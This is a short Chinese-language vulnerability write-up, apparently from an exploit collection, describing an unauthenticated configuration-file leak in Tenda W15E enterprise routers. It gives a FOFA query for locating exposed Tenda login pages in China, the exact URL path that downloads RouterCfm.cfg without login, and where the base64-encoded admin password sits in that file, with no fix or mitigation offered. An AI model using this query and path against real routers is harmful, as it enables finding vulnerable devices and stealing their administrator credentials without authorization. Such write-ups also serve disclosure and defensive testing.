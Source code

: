 # Tenda W15E企业级路由器 RouterCfm.cfg 配置文件泄漏漏洞

## 漏洞描述

Tenda 企业级路由器 RouterCfm.cfg 配置文件可在未授权的情况下被读取，导致账号密码等敏感信息泄漏

## 漏洞影响

<a-checkbox checked>Tenda 企业级路由器</a-checkbox></br>

## FOFA

<a-checkbox checked>title=="Tenda | Login" && country="CN"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1642645426007-dae7304a-c0b0-4e24-b622-c4c4cae93f13.png)

访问路径

```go
/cgi-bin/DownloadCfg/RouterCfm.cfg
```

![img](../../../.vuepress/public/img/1642645500607-fbcda323-b8f8-406d-a77a-2cea223b9f77.png)

后台账号密码位于参数 **sys.userpass** base64解密后的字符

![img](../../../.vuepress/public/img/1642645610038-094fc290-4ccc-4579-8eef-cf7bee34344e.png)



